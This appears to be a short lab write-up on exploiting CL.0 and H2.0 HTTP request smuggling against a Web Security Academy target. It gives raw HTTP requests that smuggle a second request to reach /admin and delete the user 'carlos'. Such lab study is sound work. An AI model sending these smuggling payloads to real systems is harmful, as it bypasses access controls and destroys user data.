 # Exploiting CL.0 & H2.0 vulnerabilities

You can exploit CL.0 vulnerabilities for the same vulnerabilities listed on [Exploiting HTTP & HTTP/2 Request Smuggling](HTTP%20Request%20Smuggling.md#Exploiting%20HTTP%20&%20HTTP/2%20Request%20Smuggling)

Non vulnerable request:
```http
POST / HTTP/2
Host: 0aee00c704e3b3f881c98a740074008c.web-security-academy.net     # HTTP/2 200 OK
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Connection: keep-alive

GET /hopefully404 HTTP/1.1
Foo: xGET / HTTP/2
Host: 0aee00c704e3b3f881c98a740074008c.web-security-academy.net     # HTTP/2 200 OK
```

Vulnerable request:
```http
POST / HTTP/2
Host: 0aee00c704e3b3f881c98a740074008c.web-security-academy.net     # HTTP/2 200 OK
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Connection: keep-alive

GET /hopefully404 HTTP/1.1
Foo: xGET / HTTP/2
Host: 0aee00c704e3b3f881c98a740074008c.web-security-academy.net     # HTTP/2 404 Not Found
```

Accessed `/admin` page and deleted carlos user (`/admin` was leaked in the same way):
```http
POST / HTTP/2
Host: 0aee00c704e3b3f881c98a740074008c.web-security-academy.net     # HTTP/2 200 OK
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Connection: keep-alive

GET /admin/delete?username=carlos HTTP/1.1
Foo: xGET / HTTP/2
Host: 0aee00c704e3b3f881c98a740074008c.web-security-academy.net     # HTTP/2 200 OK with /admin information
```